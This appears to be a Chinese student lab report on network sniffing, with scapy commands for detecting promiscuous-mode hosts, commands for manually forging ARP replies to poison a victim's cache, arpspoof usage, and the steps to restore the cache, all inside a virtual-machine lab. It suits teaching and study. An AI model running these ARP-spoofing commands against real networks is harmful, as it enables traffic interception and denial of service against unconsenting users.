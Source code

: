 # 实验四 网络监听

## 实验环境

* 攻击者主机：kali
08:00:27:f3:18:fd / eth0
172.16.111.131
* 受害者主机：debian
08:00:27:da:d1:ba / enp0s3
172.16.111.105
* 网关：Debain
08:00:27:e6:f2:68 / enp0s9
172.16.111.1
* 网络拓扑如下
  ![](./img/GW.png)
  ![](./img/network.png)
  ![](./img/network2.png)

## 实验: 检测局域网中的异常终端

* ```shell
    # 在受害者主机上检查网卡的「混杂模式」是否启用
    ip link show enp0s3
    # 2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
    #     link/ether 08:00:27:aa:ff:3e brd ff:ff:ff:ff:ff:ff

    # 在攻击者主机上开启 scapy
    sudo scapy

    # 在 scapy 的交互式终端输入以下代码回车执行 受害者主机 ip
    pkt = promiscping("172.16.111.105")

    # 回到受害者主机上开启网卡的『混杂模式』
    # 注意上述输出结果里应该没有出现 PROMISC 字符串
    # 手动开启该网卡的「混杂模式」
    sudo ip link set enp0s3 promisc on

    # 此时会发现输出结果里多出来了 PROMISC 
    ip link show enp0s3
    # 2: enp0s3: <BROADCAST,MULTICAST,PROMISC,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
    #     link/ether 08:00:27:aa:ff:3e brd ff:ff:ff:ff:ff:ff

    # 回到攻击者主机上的 scapy 交互式终端继续执行命令
    # 观察两次命令的输出结果差异
    pkt = promiscping("172.16.111.105")

    # 在受害者主机上
    # 手动关闭该网卡的「混杂模式」
    sudo ip link set enp0s3 promisc off
    ```
* 结果展示
  * 由结果可知受害者主机未开启混杂模式时，攻击者使用 promiscping 进行发包探测，结果没有得到 arp 响应。当受害者主机开启了混杂模式后，攻击者使用 promiscping 进行发包探测，可以得到 arp 响应。
  * ![](./img/victim-mix.png)
  * ![](./img/attacker-promiscping.png)

## 实验：手工单步“毒化”目标主机的 ARP 缓存

* ```shell
  # 获取当前局域网的网关 MAC 地址
  # 构造一个 ARP 请求
  arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

  # 查看构造好的 ARP 请求报文详情
  arpbroadcast.show()

  # ###[ Ethernet ]###
  #   dst= ff:ff:ff:ff:ff:ff
  #   src= 08:00:27:f3:18:fd
  #   type= ARP
  # ###[ ARP ]###
  #      hwtype= 0x1
  #      ptype= IPv4
  #      hwlen= None
  #      plen= None
  #       op= who-has
  #      hwsrc= 08:00:27:f3:18:fd
  #      psrc= 172.16.111.131
  #      hwdst= 00:00:00:00:00:00
  #      pdst= 172.16.111.1

  # 发送这个 ARP 广播请求
  recved = srp(arpbroadcast, timeout=2)

  # 网关 MAC 地址如下
  gw_mac = recved[0][0][1].hwsrc

  # 伪造网关的 ARP 响应包
  # 准备发送给受害者主机 172.16.111.105
  # ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
  arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.105", hwdst="08:00:27:f3:18:fd")

  # 发送上述伪造的 ARP 响应数据包到受害者主机
  sendp(arpspoofed)
    ```

* 查看毒化之前和之后的受害者主机 ARP 缓存,发现毒化之后网关对应的 MAC 地址为攻击者主机的 MAC 地址
  * ![](./img/victim-arp.png) 
* 受害者主机 `ping baidu.com`,网关进行抓包。可以观察到无法 ping 通，抓包后发现受害者主机发送的数据报，在链路层的目的地址为攻击者的 MAC 地址，而非网关的 MAC 地址。
  * ![](./img/ping.png) 
  * ![](./img/ping-wireshark.png)
* 恢复受害者主机的 ARP 缓存记录
* ```shell
    ## 伪装网关给受害者发送 ARP 响应
    restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:e6:f2:68", pdst="172.16.111.105", hwdst="08:00:27:da:d1:ba")
    sendp(restorepkt1, count=100, inter=0.2)
    ## （可选）伪装受害者给网关发送 ARP 响应
    restorepkt2 = ARP(op=2, pdst="172.16.111.1", hwdst="08:00:27:e6:f2:68", psrc="172.16.111.105", hwsrc="08:00:27:da:d1:ba")
    sendp(restorepkt2, count=100, inter=0.2)

    ```
    * 恢复成功，抓包后可以看到具体的100个 ARP 响应包
    * ![](./img/restore.png)
    * ![](./img/restore-wireshark.png)
## 实验：使用自动化工具完成 ARP 投毒劫持实验

* 使用自动化工具 arpspoof
* ```shell
  arpspoof -i eth0 -t 172.16.111.105 172.16.111.1
  ```
* 结果展示
  * 可以看到受害者主机 ARP缓存被毒化，网关对应的物理地址为攻击者 MAC 地址
  * 受害者主机 `ping baidu.com` 无法连通
  * ![](./img/arpspoof.png)

## 遇到的问题

* scapy 模块发送数据包时Errno1 [operation not permitted]
  * 提升权限 `sudo scapy` 
* 受害者主机 Debian 有网关的 STALE 记录，手动毒化失败 
  * 构造 ARP 包使未加上 链路层数据帧格式，导致发送失败
  * ```shell
        # 进入scapy
        arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.105", hwdst="08:00:27:f3:18:fd")
    ```

* 自动化工具 arpspoof kali 下载失败
  * 下载 dsniff
  * ```shell
        sudo apt install dsniff
      ```
* 使用 arpspoof 命令报错：arpspoof: libnet_open_link(): UID/EUID 0 or cap
  * 权限不够
  * ```shell
      # 使用 sudo 开启 scapy
      sudo scapy
      # 使用arpspoof
    ```